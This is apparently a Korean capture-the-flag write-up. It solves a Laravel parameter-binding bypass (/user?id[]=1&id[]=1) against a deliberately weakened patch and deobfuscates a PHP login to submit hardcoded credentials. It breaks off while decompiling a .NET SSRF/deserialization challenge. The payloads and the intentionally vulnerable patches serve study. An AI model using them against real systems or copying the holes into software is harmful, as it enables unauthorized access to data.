


# Building Management System / Smart Building

> 스마트 빌딩에 출입하는 인원들을 관리하는 시스템을 발견했다. 편의를 위해 패치를 한 모양인데, 어쩐지 취약해보인다...

### TL;DR

CVE-2021-21263, CVE-2021-3129으로 인해 Array Parameter으로 보면 잘못된 바인딩 처리로 인해 취약점이 발생 합니다.

## Analysis

사이트에서 들어가면 바로 링크로 연결되는 /user으로 들어가면 id가 2부터 시작하는 데이터가 나옵니다.

```json
[{"id":2,"name":"Leonie Runte","email":"elouise.dubuque@example.net","email_verified_at":"2023-08-03T08:34:51.000000Z","created_at":"2023-08-03T08:34:51.000000Z","updated_at":"2023-08-03T08:34:51.000000Z","is_admin":false},{"id":3,"name":"Mose Metz","email":"dora65@example.com","email_verified_at":"2023-08-03T08:34:51.000000Z","created_at":"2023-08-03T08:34:51.000000Z","updated_at":"2023-08-03T08:34:51.000000Z","is_admin":false},{"id":4,"name":"Dr. Dameon Runte","email":"valtenwerth@example.org","email_verified_at":"2023-08-03T08:34:51.000000Z","created_at":"2023-08-03T08:34:51.000000Z","updated_at":"2023-08-03T08:34:51.000000Z","is_admin":false},{"id":5,"name":"Dr. Clifford Metz","email":"destany.bartoletti@example.com","email_verified_at":"2023-08-03T08:34:51.000000Z","created_at":"2023-08-03T08:34:51.000000Z","updated_at":"2023-08-03T08:34:51.000000Z","is_admin":false},{"id":6,"name":"Shana Kertzmann","email":"rwiegand@example.org","email_verified_at":"2023-08-03T08:34:51.000000Z","created_at":"2023-08-03T08:34:51.000000Z","updated_at":"2023-08-03T08:34:51.000000Z","is_admin":false},{"id":7,"name":"Betty Kulas","email":"nienow.cielo@example.net","email_verified_at":"2023-08-03T08:34:51.000000Z","created_at":"2023-08-03T08:34:51.000000Z","updated_at":"2023-08-03T08:34:51.000000Z","is_admin":false},{"id":8,"name":"Sabrina McLaughlin PhD","email":"predovic.elyssa@example.org","email_verified_at":"2023-08-03T08:34:51.000000Z","created_at":"2023-08-03T08:34:51.000000Z","updated_at":"2023-08-03T08:34:51.000000Z","is_admin":false},{"id":9,"name":"Stefanie Halvorson","email":"lorine71@example.org","email_verified_at":"2023-08-03T08:34:51.000000Z","created_at":"2023-08-03T08:34:51.000000Z","updated_at":"2023-08-03T08:34:51.000000Z","is_admin":false},{"id":10,"name":"Sanford Boyer","email":"clifford45@example.net","email_verified_at":"2023-08-03T08:34:51.000000Z","created_at":"2023-08-03T08:34:51.000000Z","updated_at":"2023-08-03T08:34:51.000000Z","is_admin":false},{"id":11,"name":"Rubye Schultz","email":"rick.kemmer@example.net","email_verified_at":"2023-08-03T08:34:51.000000Z","created_at":"2023-08-03T08:34:51.000000Z","updated_at":"2023-08-03T08:34:51.000000Z","is_admin":false}]
```

/user GET 요청 관련 파일을 찾아보면 laravel/routes/web.php에 아래와 같이 is_admin이 false인 데이터만 출력을 하게 됩니다. 

id가 1이 아니라 2부터 시작하는 것을 보고 id가 1인 것을 읽으면 FLAG가 나올 것으로 예상 합니다.

```php
Route::get('/', function () {
    return view('welcome');
});

Route::get('/user', function () {
    $query = User::query();

    if (request()->id) {
        $query->where('id', request()->id);
    }

    $users = $query->where('is_admin', false)->get();

    return $users;
});
```

그러면 다른 파일들도 살펴보면 아래와 같이 ``flattenValue`` 메서드와 bindings 관련 변수를 추가한 패치를 볼 수 있습니다.


#### p1.patch file

```patch
--- a/vendor/laravel/framework/src/Illuminate/Database/Query/Builder.php	2023-06-06 00:48:15.000000000 +0900
+++ b/vendor/laravel/framework/src/Illuminate/Database/Query/Builder.php	2023-06-07 12:17:48.335053907 +0900
@@ -843,7 +843,7 @@
         );
 
         if (! $value instanceof ExpressionContract) {
-            $this->addBinding($this->flattenValue($value), 'where');
+            $this->addBinding($value, 'where');
         }
 
         return $this;

```

#### p2.patch file

```patch
--- a/vendor/laravel/framework/src/Illuminate/Database/Connection.php	2023-06-06 00:48:15.000000000 +0900
+++ b/vendor/laravel/framework/src/Illuminate/Database/Connection.php	2023-06-07 12:23:32.905313667 +0900
@@ -416,6 +416,11 @@
                 $this->getPdoForSelect($useReadPdo)->prepare($query)
             );
 
+            // Counts the number of '?' in the query statement
+            $valueCount = substr_count($statement->queryString, '?');
+            // Slice the bindings array accodring to the count
+            $bindings = array_slice($bindings, 0, $valueCount);
+
             $this->bindValues($statement, $this->prepareBindings($bindings));
 
             $statement->execute();

```

한번 patch 되어 없어진 flattenValue 메서드 관련 검색 해보면 [[6.x] Limit expected bindings #35865](https://github.com/laravel/framework/pull/35865) 관련하여 언급이 된 것을 볼 수 있습니다.

해당 문제 같은 경우엔 아래의 사진과 같이 친절하게 ``id[]=1&id[]=1`` 형식으로 보내면 bindings 문제로 인해 is_admin이 1으로 변경이 된다는 것을 알 수 있습니다.



그러면 아래의 코드와 Laravel에서 발생한 이슈와 유사하게 ``/user?id[]=1&id[]=1`` 시도하면 ``id=1 and is_admin=1`` 이렇게 쿼리가 완성 되면서 FLAG가 나오게 됩니다.

```php
[{"id":1,"name":"admin","email":"FLAG{Wh3Re_15_mY_hARd_c0DED_v4Lu3}","email_verified_at":"2023-08-03T08:34:51.000000Z","created_at":"2023-08-03T08:34:51.000000Z","updated_at":"2023-08-03T08:34:51.000000Z","is_admin":true}]
```

#### FLAG : ``FLAG{Wh3Re_15_mY_hARd_c0DED_v4Lu3}``

# SmartGridAdmin / Smart Grid

> 지능형 전력망 관리를 위한 관리자 페이지 코드가 유출되었다. 하지만 난독화가 되어있다고 하여 유출되어도 상관없다는데.. 해당 코드를 분석하여 위험함을 증명하자.

페이지에 들어가면 로그인 창이 나오는 것을 볼 수 있습니다.



소스코드를 확인하면 login.php에 난독화된 파일이 있습니다.

```php
<?php goto j6VvQ; A2oww: $yMwUN = $_POST["\151\160"]; goto tVRd1; Yg41Q: kbYK4: goto A2oww; HQDQ0: goto Um48u; goto GGX0H; tVRd1: $oxplr = $_POST["\145\155\141\x69\154"]; goto H5P6G; KBoMX: die("\74\x73\x63\x72\151\x70\164\76\141\x6c\x65\x72\x74\x28\x27\x4c\x4f\x47\x49\x4e\x20\x46\101\111\114\x45\x44\x27\51\x3b\x77\x69\156\144\157\167\x2e\154\157\x63\141\x74\151\157\x6e\x2e\x68\x72\x65\x66\x3d\x27\x2e\x2f\47\73\x3c\x2f\x73\143\x72\151\160\164\76"); goto HQDQ0; GGX0H: ZbVHC: goto us7dX; d3R4k: if ($yMwUN == "\61\x37\x32\56\x31\x36\56\x30\x2e\x39\x39" && $oxplr == "\141\x64\155\151\156\100\163\x6d\x61\162\x74\x67\162\151\144\x2e\156\x65\164" && $epE81 == "\163\151\155\160\x6c\145\x63\150\x61\154\x6c\x65\x6e\x67\x65") { goto ZbVHC; } goto KBoMX; H5P6G: $epE81 = $_POST["\x70\x61\163\163"]; goto d3R4k; j6VvQ: if (!(!isset($_POST["\151\x70"]) || !isset($_POST["\145\x6d\141\151\154"]) || !isset($_POST["\160\141\x73\x73"]))) { goto kbYK4; } goto S0G7G; S0G7G: die("\74\163\x63\x72\151\x70\x74\76\x61\154\145\x72\164\50\x27\x55\x4e\x4b\x4e\x4f\x57\x4e\40\x45\x52\x52\117\x52\x27\x29\x3b\x77\151\156\144\x6f\x77\56\154\157\143\141\x74\151\157\156\56\150\162\x65\x66\x3d\x27\x2e\57\47\x3b\74\57\163\x63\x72\x69\160\x74\x3e"); goto Yg41Q; us7dX: echo file_get_contents("\x2f\146\154\x61\147"); goto HM9oK; HM9oK: Um48u:

```

간단하게 난독화 해제하면 아래와 같이 d3R4k goto label에서 if를 검사하고 /flag를 읽은 us7dX를 호출하게 됩니다.

```php
<?php 
goto j6VvQ; 
A2oww: 
    $yMwUN = $_POST["ip"]; 
    goto tVRd1; 
Yg41Q: 
kbYK4: 
    goto A2oww; 
HQDQ0: 
    goto Um48u; 
    goto GGX0H; 
tVRd1: $oxplr = $_POST["email"]; 
    goto H5P6G; 
KBoMX: 
    die("<script>alert(\'LOGIN FAILED\');window.location.href=\'./\';</script>"); 
    goto HQDQ0; 
GGX0H: 
ZbVHC: 
    goto us7dX; 
d3R4k: 
    if ($yMwUN == "172.16.0.99" && $oxplr == "admin@smartgrid.net" && $epE81 == "simplechallenge") { goto ZbVHC; } goto KBoMX; 
H5P6G: 
    $epE81 = $_POST["pass"]; 
    goto d3R4k; 
j6VvQ: if (!(!isset($_POST["ip"]) || !isset($_POST["email"]) || !isset($_POST["pass"]))) { goto kbYK4; } goto S0G7G; S0G7G: die("<script>alert(\'UNKNOWN ERROR\');window.location.href=\'./\';</script>"); goto Yg41Q; 
us7dX: echo file_get_contents("/flag"); goto HM9oK; HM9oK: Um48u:
```

다음과 같이 body에 맞추면 FLAG가 나옵니다.

```js
fetch("http://3.37.65.109:31991/login.php", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "ko,zh-CN;q=0.9,zh;q=0.8,en;q=0.7,en-US;q=0.6,ko-KR;q=0.5,zh-TW;q=0.4,zh-HK;q=0.3,ja;q=0.2",
    "cache-control": "max-age=0",
    "content-type": "application/x-www-form-urlencoded",
    "upgrade-insecure-requests": "1"
  },
  "referrer": "http://3.37.65.109:31991/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "ip=172.16.0.99&email=admin@smartgrid.net&pass=simplechallenge",
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```

#### FLAG : ``S1mPl3Ch4l13ng3B0nu5``

# Tiny API / Smart Grid

> 스마트 그리드 API 서버 일부를 획득했다. 내부망에 접근할 수 없어서 안전할 거라는데...

### TL;DL

SSRF 취약점을 이용하여 PublicApp에서는 제한된 DataList 조회가 InternalApp으로 요청하면 DataList 제한을 풀면서 Flag를 얻을 수 있게 됩니다.

파일 구조를 살펴보면 아래와 같이 Challenge.dll 파일이 나오게 됩니다.

```
.
├── Dockerfile
├── README.md
├── build.sh
├── challenge
│   ├── Challenge.deps.json
│   ├── Challenge.dll
│   ├── Challenge.pdb
│   ├── Challenge.runtimeconfig.json
│   ├── HashDepot.dll
│   ├── Microsoft.AspNetCore.Diagnostics.EntityFrameworkCore.dll
│   ├── Microsoft.EntityFrameworkCore.Abstractions.dll
│   ├── Microsoft.EntityFrameworkCore.InMemory.dll
│   ├── Microsoft.EntityFrameworkCore.Relational.dll
│   ├── Microsoft.EntityFrameworkCore.dll
│   ├── Microsoft.Extensions.Caching.Abstractions.dll
│   ├── Microsoft.Extensions.Caching.Memory.dll
│   ├── Microsoft.Extensions.DependencyInjection.Abstractions.dll
│   ├── Microsoft.Extensions.DependencyInjection.dll
│   ├── Microsoft.Extensions.Logging.Abstractions.dll
│   ├── Microsoft.Extensions.Logging.dll
│   ├── Microsoft.Extensions.Options.dll
│   ├── Microsoft.Extensions.Primitives.dll
│   ├── appsettings.Development.json
│   ├── appsettings.json
│   ├── flag
│   └── web.config
├── challenge.zip
├── packages-microsoft-prod.deb
└── run.sh

1 directory, 28 files
```

해당 Challenge.dll 파일을 dnspy 툴로 살펴보면 아래와 같이 Mapping하는 코드와 ``StartPublicApp``, ``StartInternalApp`` 으로 나뉘어져 있습니다.

### Init Analysis

먼저 Init 함수에서는 flag 파일을 읽은 다음, Type은 Data.DatType.Admin으로 지정하고 Value에 플래그를 넣은 다음, DataDb에 저장하게 됩니다.

```cs
internal static void Init()
{
	DbContextOptions<DataDb> options = new DbContextOptionsBuilder<DataDb>().UseInMemoryDatabase("DataList", null).Options;
	DataDb context = new DataDb(options);
	string byteFlag = File.ReadAllText("flag");
	if (byteFlag == null)
	{
		Console.WriteLine("There's no flag file here. Please contact to admin");
		Environment.Exit(1);
	}
	Data flagData = new Data();
	flagData.Type = Data.DataType.Admin;
	flagData.Value = byteFlag;
	if (!flagData.Init())
	{
		Console.WriteLine("Fail to init. Please contact to admin");
		Environment.Exit(1);
	}
	context.Add<Data>(flagData);
	context.SaveChanges();
}
```

DataList에 flagData를 추가하고, Data.DataType.Admin을 넣어 Type을 지정합니다. 

DataType enum에는 None(0x0), Admin(0x1), User(0x2)으로 Type이 정의되어 있습니다.

```cs
[NullableContext(0)]
public enum DataType
{
	// Token: 0x04000027 RID: 39
	None,
	// Token: 0x04000028 RID: 40
	Admin,
	// Token: 0x04000029 RID: 41
	User
}
```

## StartPublicApp Analysis

그러면 다음으로, StartPublicApp 즉 외부에서 접근이 가능한 Router를 분석해 보겠습니다.

```cs
	// Token: 0x06000007 RID: 7 RVA: 0x00002178 File Offset: 0x00000378
	internal static void StartPublicApp()
	{
		WebApplicationBuilder builder = WebApplication.CreateBuilder();
		builder.Services.AddDbContext(delegate(DbContextOptionsBuilder opt)
		{
			opt.UseInMemoryDatabase("DataList", null);
		}, ServiceLifetime.Scoped, ServiceLifetime.Scoped);
		builder.Services.Configure(delegate(JsonOptions options)
		{
			options.SerializerOptions.PropertyNameCaseInsensitive = false;
			options.SerializerOptions.PropertyNamingPolicy = null;
			options.SerializerOptions.WriteIndented = true;
		});
		WebApplication publicApp = builder.Build();
		EndpointRouteBuilderExtensions.MapGet(publicApp, "/", new Func<IResult>(() => Results.Ok(string.Format("Hello! I'm {0}", Dns.GetHostName()))));
		EndpointRouteBuilderExtensions.MapGet(publicApp, "/data", new Func<DataDb, Task<IResult>>(delegate([Nullable(1)] DataDb db)
		{
			Program.<>c.<<StartPublicApp>b__2_3>d <<StartPublicApp>b__2_3>d;
			<<StartPublicApp>b__2_3>d.<>t__builder = AsyncTaskMethodBuilder<IResult>.Create();
			<<StartPublicApp>b__2_3>d.db = db;
			<<StartPublicApp>b__2_3>d.<>1__state = -1;
			<<StartPublicApp>b__2_3>d.<>t__builder.Start<Program.<>c.<<StartPublicApp>b__2_3>d>(ref <<StartPublicApp>b__2_3>d);
			return <<StartPublicApp>b__2_3>d.<>t__builder.Task;
		}));
		EndpointRouteBuilderExtensions.MapGet(publicApp, "/data/{key}", new Func<ulong, DataDb, Task<IResult>>(delegate(ulong key, [Nullable(1)] DataDb db)
		{
			Program.<>c.<<StartPublicApp>b__2_4>d <<StartPublicApp>b__2_4>d;
			<<StartPublicApp>b__2_4>d.<>t__builder = AsyncTaskMethodBuilder<IResult>.Create();
			<<StartPublicApp>b__2_4>d.key = key;
			<<StartPublicApp>b__2_4>d.db = db;
			<<StartPublicApp>b__2_4>d.<>1__state = -1;
			<<StartPublicApp>b__2_4>d.<>t__builder.Start<Program.<>c.<<StartPublicApp>b__2_4>d>(ref <<StartPublicApp>b__2_4>d);
			return <<StartPublicApp>b__2_4>d.<>t__builder.Task;
		}));
		EndpointRouteBuilderExtensions.MapPost(publicApp, "/data", new Func<Data, DataDb, Task<IResult>>(delegate(Data data, DataDb db)
		{
			Program.<>c.<<StartPublicApp>b__2_5>d <<StartPublicApp>b__2_5>d;
			<<StartPublicApp>b__2_5>d.<>t__builder = AsyncTaskMethodBuilder<IResult>.Create();
			<<StartPublicApp>b__2_5>d.data = data;
			<<StartPublicApp>b__2_5>d.db = db;
			<<StartPublicApp>b__2_5>d.<>1__state = -1;
			<<StartPublicApp>b__2_5>d.<>t__builder.Start<Program.<>c.<<StartPublicApp>b__2_5>d>(ref <<StartPublicApp>b__2_5>d);
			return <<StartPublicApp>b__2_5>d.<>t__builder.Task;
		}));
		EndpointRouteBuilderExtensions.MapGet(publicApp, "/url", new Func<string, Task<IResult>>(delegate([Nullable(1)] string q)
		{
			Program.<>c.<<StartPublicApp>b__2_6>d <<StartPublicApp>b__2_6>d;
			<<StartPublicApp>b__2_6>d.<>t__builder = AsyncTaskMethodBuilder<IResult>.Create();
			<<StartPublicApp>b__2_6>d.q = q;
			<<StartPublicApp>b__2_6>d.<>1__state = -1;
			<<StartPublicApp>b__2_6>d.<>t__builder.Start<Program.<>c.<<StartPublicApp>b__2_6>d>(ref <<StartPublicApp>b__2_6>d);
			return <<StartPublicApp>b__2_6>d.<>t__builder.Task;
		}));
		publicApp.Run("http://+:80/");
	}
```

StartPublicApp에는 ``/, /url, (GET)/data, (POST)/data, /data/{key}`` 총 5개의 라우터가 존재합니다.

하지만 StartPublicApp은 비동기 처리로 인해 내부 소스코드가 바로 보이지 않으므로 dnspy에서 ``View > Options > Decompiler > C# / Visual Basic (ILSpy)`` 에서 ``Show hidden compiler generated types and methods``를 허용하면 비동기 메서드도 소스코드를 분석할 수 있습니다.

이제 소스코드를 볼 수 있으니, ``<<StartInternalApp>b__3_1>``을 분석하면 MoveNext Method에서 LINQ 쿼리를 이용해 d.Type이 2인 데이터만 조회하는 것을 볼 수 있습니다.

```cs
private struct <<StartPublicApp>b__2_3>d : IAsyncStateMachine
{
	// Token: 0x06000034 RID: 52 RVA: 0x00002934 File Offset: 0x00000B34
	void IAsyncStateMachine.MoveNext()
	{
		int num = this.<>1__state;
		IResult result2;
		try
		{
			TaskAwaiter<List<ulong>> awaiter;
			if (num != 0)
			{
				awaiter = (from d in this.db.DataList
				where (int)d.Type == 2 // point
				select d.Key).ToListAsync(default(CancellationToken)).GetAwaiter();
				if (!awaiter.IsCompleted)
				{
					this.<>1__state = 0;
					this.<>u__1 = awaiter;
					this.<>t__builder.AwaitUnsafeOnCompleted<TaskAwaiter<List<ulong>>, Program.<>c.<<StartPublicApp>b__2_3>d>(ref awaiter, ref this);
					return;
				}
			}
			[ ... ]
	private TaskAwaiter<List<ulong>> <>u__1;

}
```

해당 d.Type은 Init()에 있었던 것 처럼 User이 0x2 값을 가지고 flag를 조회할 수 없도록 제한이 걸립니다.

마찬가지로 /data/{key} 부분도 아래와 같이 d.Type이 2로 조건이 걸려 있습니다.

```cs
TaskAwaiter<Data> awaiter;
if (num != 0)
{
	Program.<>c__DisplayClass2_0 CS$<>8__locals1 = new Program.<>c__DisplayClass2_0();
	CS$<>8__locals1.key = this.key;
	awaiter = (from d in this.db.DataList
	where (int)d.Type == 2
	where d.Key == CS$<>8__locals1.key
	select d).SingleAsync(default(CancellationToken)).GetAwaiter();
	if (!awaiter.IsCompleted)
	{
		this.<>1__state = 0;
		this.<>u__1 = awaiter;
		this.<>t__builder.AwaitUnsafeOnCompleted<TaskAwaiter<Data>, Program.<>c.<<StartPublicApp>b__2_4>d>(ref awaiter, ref this);
		return;
	}
}
```

### StartInternalApp Analysis

StartPublicApp은 d.Type=2으로 인해 User으로만 제한이 되기 때문에, StartInternalApp을 살펴보겠습니다.

```cs
// Token: 0x06000008 RID: 8 RVA: 0x000022CC File Offset: 0x000004CC
internal static void StartInternalApp()
{
	WebApplicationBuilder builder = WebApplication.CreateBuilder();
	builder.Services.AddDbContext(delegate(DbContextOptionsBuilder opt)
	{
		opt.UseInMemoryDatabase("DataList", null);
	}, ServiceLifetime.Scoped, ServiceLifetime.Scoped);
	WebApplication internalApp = builder.Build();
	EndpointRouteBuilderExtensions.MapGet(internalApp, "/deserial", new Func<string, DataDb, Task<IResult>>(delegate(string d, DataDb db)
	{
		Program.<>c.<<StartInternalApp>b__3_1>d <<StartInternalApp>b__3_1>d;
		<<StartInternalApp>b__3_1>d.<>t__builder = AsyncTaskMethodBuilder<IResult>.Create();
		<<StartInternalApp>b__3_1>d.d = d;
		<<StartInternalApp>b__3_1>d.db = db;
		<<StartInternalApp>b__3_1>d.<>1__state = -1;
		<<StartInternalApp>b__3_1>d.<>t__builder.Start<Program.<>c.<<StartInternalApp>b__3_1>d>(ref <<StartInternalApp>b__3_1>d);
		return <<StartInternalApp>b__3_1>d.<>t__builder.Task;
	}));
	internalApp.Run("http://localhost:8000/");
}
```

``<<StartInternalApp>b__3_1>d``을 좀 더 파고들어보면 아래와 같은 코드가 나옵니다. 먼저 중요하게 봐야 할 부분은 ``RequestForm rf = JsonSerializer.Deserialize<RequestForm>(tmp, null);``, ``Object obj = JsonSerializer.Deserialize<Object>(decodedKey, null);`` 입니다.

```py
[StructLayout(LayoutKind.Auto)]
private struct <<StartInternalApp>b__3_1>d : IAsyncStateMachine
{
	// Token: 0x06000032 RID: 50 RVA: 0x000026EC File Offset: 0x000008EC
	void IAsyncStateMachine.MoveNext()
	{
		int num = this.<>1__state;
		IResult result;
		try
		{
			ValueTaskAwaiter<Data> awaiter;
			if (num != 0)
			{
				if (this.d == null)
				{
					result = Results.BadRequest("Data must not be empty");
					goto IL_1FA;
				}
				byte[] decodedData = Convert.FromBase64String(this.d);
				string tmp = Encoding.Default.GetString(decodedData);
				RequestForm rf = JsonSerializer.Deserialize<RequestForm>(tmp, null);
				if (rf == null || !rf.IsValid())
				{
					result = Results.BadRequest("Invalid data");
					goto IL_1FA;
				}
				if (rf.Dl == "fa")
				{
					result = Results.Ok(rf.Fid);
					goto IL_1FA;
				}
				byte[] decodedKey = Convert.FromBase64String(rf.Key);
				Object obj = JsonSerializer.Deserialize<Object>(decodedKey, null);
				if (obj == null || !obj.IsValid())
				{
					result = Results.BadRequest("Invalid object");
					goto IL_1FA;
				}
				if (obj.SessionState == SessionState.Utf8String)
				{
					result = Results.Ok(obj.SerializationId);
					goto IL_1FA;
				}
				if (obj.ItemState == ItemState.NoChange)
				{
					result = Results.Ok((from d in this.db.DataList
					select d.Key).ToList<ulong>());
					goto IL_1FA;
				}
				awaiter = this.db.DataList.FindAsync(new object[]
				{
					obj.SerializedKey
				}).GetAwaiter();
				if (!awaiter.IsCompleted)
				{
					this.<>1__state = 0;
					this.<>u__1 = awaiter;
					this.<>t__builder.AwaitUnsafeOnCompleted<ValueTaskAwaiter<Data>, Program.<>c.<<StartInternalApp>b__3_1>d>(ref awaiter, ref this);
					return;
				}
			}
			else
			{
				awaiter = this.<>u__1;
				this.<>u__1 = default(ValueTaskAwaiter<Data>);
				this.<>1__state = -1;
			}
			Data result2 = awaiter.GetResult();
			Data data = result2;
			result = ((data != null) ? Results.Ok(data) : Results.BadRequest("Invalid object"));
		}
		catch (Exception exception)
		{
			this.<>1__state = -2;
			this.<>t__builder.SetException(exception);
			return;
		}
		IL_1FA:
		this.<>1__state = -2;
		this.<>t__builder.SetResult(result);
}
```

rf 변수의 경우, ``<RequestForm>`` Object으로 Deserialize 시키기 때문에 ``!rf.IsValid()``, ``rf.Dl == "fa"`` 를 만족해 주면 됩니다.

```cs
byte[] decodedData = Convert.FromBase64String(this.d);
string tmp = Encoding.Default.GetString(decodedData);
RequestForm rf = JsonSerializer.Deserialize<RequestForm>(tmp, null);
if (rf == null || !rf.IsValid())
{
	result = Results.BadRequest("Invalid data");
	goto IL_1FA;
}
if (rf.Dl == "fa")
{
	result = Results.Ok(rf.Fid);
	goto IL_1FA;
}
```

IsValid 메서드는 Dl 값 체크, Sid 값 체크와 나머지 this들의 유무만 체크하기 때문에 해당 형식에 맞춰 직렬화 시키면 됩니다.

```cs
public bool IsValid()
{
	return this.Fid != null && this.Sid != null && this.Key != null && (!(this.Dl != "fa") || !(this.Dl != "ip")) && this.Sid == "57b42dffcac451317e7b";
}
```

하지만 해당 IsValid 다음에도 역직렬화 시킨 rf 변수 안에 있는 Key를 한번 더 Deserialize를 합니다.

```cs
byte[] decodedKey = Convert.FromBase64String(rf.Key);
Object obj = JsonSerializer.Deserialize<Object>(decodedKey, null);
if (obj == null || !obj.IsValid())
{
	result = Results.BadRequest("Invalid object");
	goto IL_1FA;
}
if (obj.SessionState == SessionState.Utf8String)
{
	result = Results.Ok(obj.SerializationId);
	goto IL_1FA;
}
if (obj.ItemState == ItemState.NoChange)
{
	result = Results.Ok((from d in this.db.DataList
	select d.Key).ToList<ulong>());
	goto IL_1FA;
}
awaiter = this.db.DataList.FindAsync(new object[]
{
	obj.SerializedKey
}).GetAwaiter();
```

해당 decodedKey를 Deserialize 하는 Object를 참조하면 아래와 같이 ``ItemState``, ``SessionState``, ``SerializationId``, ``SerializedKey``, ``Size``, ``Version`` 클래스들이 존재합니다.

```cs
namespace Challenge.Serial
{
	// Token: 0x02000008 RID: 8
	[NullableContext(2)]
	[Nullable(0)]
	public class Object
	{
		// Token: 0x17000001 RID: 1
		// (get) Token: 0x0600000C RID: 12 RVA: 0x000023B7 File Offset: 0x000005B7
		// (set) Token: 0x0600000D RID: 13 RVA: 0x000023BF File Offset: 0x000005BF
		[JsonInclude]
		public ItemState ItemState
		{
			[CompilerGenerated]
			get
			{
				return this.<ItemState>k__BackingField;
			}
			[CompilerGenerated]
			set
			{
				this.<ItemState>k__BackingField = value;
			}
		}

		// Token: 0x17000002 RID: 2
		// (get) Token: 0x0600000E RID: 14 RVA: 0x000023C8 File Offset: 0x000005C8
		// (set) Token: 0x0600000F RID: 15 RVA: 0x000023D0 File Offset: 0x000005D0
		[JsonInclude]
		public SessionState SessionState
		{
			[CompilerGenerated]
			get
			{
				return this.<SessionState>k__BackingField;
			}
			[CompilerGenerated]
			set
			{
				this.<SessionState>k__BackingField = value;
			}
		}

		// Token: 0x17000003 RID: 3
		// (get) Token: 0x06000010 RID: 16 RVA: 0x000023D9 File Offset: 0x000005D9
		// (set) Token: 0x06000011 RID: 17 RVA: 0x000023E1 File Offset: 0x000005E1
		[JsonInclude]
		public string SerializationId
		{
			[CompilerGenerated]
			get
			{
				return this.<SerializationId>k__BackingField;
			}
			[CompilerGenerated]
			set
			{
				this.<SerializationId>k__BackingField = value;
			}
		}

		// Token: 0x17000004 RID: 4
		// (get) Token: 0x06000012 RID: 18 RVA: 0x000023EA File Offset: 0x000005EA
		// (set) Token: 0x06000013 RID: 19 RVA: 0x000023F2 File Offset: 0x000005F2
		[JsonInclude]
		public ulong SerializedKey
		{
			[CompilerGenerated]
			get
			{
				return this.<SerializedKey>k__BackingField;
			}
			[CompilerGenerated]
			set
			{
				this.<SerializedKey>k__BackingField = value;
			}
		}

		// Token: 0x17000005 RID: 5
		// (get) Token: 0x06000014 RID: 20 RVA: 0x000023FB File Offset: 0x000005FB
		// (set) Token: 0x06000015 RID: 21 RVA: 0x00002403 File Offset: 0x00000603
		[JsonInclude]
		public int Size
		{
			[CompilerGenerated]
			get
			{
				return this.<Size>k__BackingField;
			}
			[CompilerGenerated]
			set
			{
				this.<Size>k__BackingField = value;
			}
		}

		// Token: 0x17000006 RID: 6
